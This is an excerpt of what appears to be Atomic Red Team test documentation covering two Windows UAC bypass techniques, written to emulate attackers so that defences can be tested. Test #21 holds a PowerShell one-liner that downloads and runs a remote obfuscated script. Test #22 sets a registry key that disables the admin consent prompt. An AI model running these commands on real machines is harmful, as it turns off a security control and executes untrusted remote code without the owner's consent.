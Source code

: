 <br/>
<br/>

## Atomic Test #21 - WinPwn - UAC Bypass DccwBypassUAC technique

UAC Bypass DccwBypassUAC technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 2b61977b-ae2d-4ae4-89cb-5c36c89586be

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/obfuscatedps/dccuac.ps1')
```

<br/>
<br/>

## Atomic Test #22 - Disable UAC admin consent prompt via ConsentPromptBehaviorAdmin registry key

Disable User Account Conrol (UAC) for admin by setting the registry key
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin to 0.

[MedusaLocker Ransomware](https://cloudsek.com/technical-analysis-of-medusalocker-ransomware/),
[Purple Fox Rootkit](https://blogs.blackberry.com/en/2022/01/threat-thursday-purple-fox-rootkit),
[Avaddon Ransomware](https://blogs.blackberry.com/en/2021/06/threat-thursday-avaddon-ransomware-uses-ddos-attacks-as-triple-threat)

**Supported Platforms:** Windows

**auto_generated_guid:** 251c5936-569f-42f4-9ac2-87a173b9e9b8

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$orgValue =(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin).ConsentPromptBehaviorAdmin
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0 -Type Dword -Force
```

#### Cleanup Commands:

```powershell
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value $orgValue -Type Dword -Force
```

<br/>
<br/>
